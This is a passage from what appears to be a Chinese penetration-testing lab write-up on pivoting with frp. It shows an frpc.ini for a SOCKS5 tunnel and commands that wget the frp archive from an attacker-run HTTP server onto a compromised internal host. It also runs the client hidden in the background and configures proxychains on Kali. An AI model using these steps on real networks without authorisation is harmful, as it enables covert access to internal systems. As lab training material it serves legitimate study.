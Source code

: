[![](assets/1708094050-cc69ed1a439f94c12bb3340620710166.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145333-569d80d6-1000-1.png)  
客户端（client）ubuntu-web2(192.168.52.20)  
会将客户端中所有的流量通过本地的一个随机端口转发给 vps 的 7000 端口，我们访问 vps 的 7777 端口就相当于访问客户端的 7000 端口

```plain
frpc.ini

[common]
server_addr = 192.168.52.10
server_port = 7000

[plugin_socks]
type = tcp
remote_port = 7777
plugin = socks5

上传 frp
tar czvf 1.tgz frp_0.49.0_linux_amd64       # 压缩 frp(192.168.52.10 终端)
python3 -m http.server  (192.168.52.10 终端)
wget http://192.168.52.10:8000/1.tgz;tar -zxvf 1.tgz    (192.168.52.20 终端)
启动
chmod +777 frpc
nohup ./frpc -c ./frpc.ini >/dev/null 2>&1 &
```

[![](assets/1708094050-5acac170685bc618da54a01580f9b075.png)](https://xzfile.aliyuncs.com/media/upload/picture/20230621145356-6452551c-1000-1.png)

kali 本地添加 proxy 配置

```plain
vim /etc/proxychains4.conf 
socks5 192.168.1.128 7777
socks5 192.168.52.10 7777
```
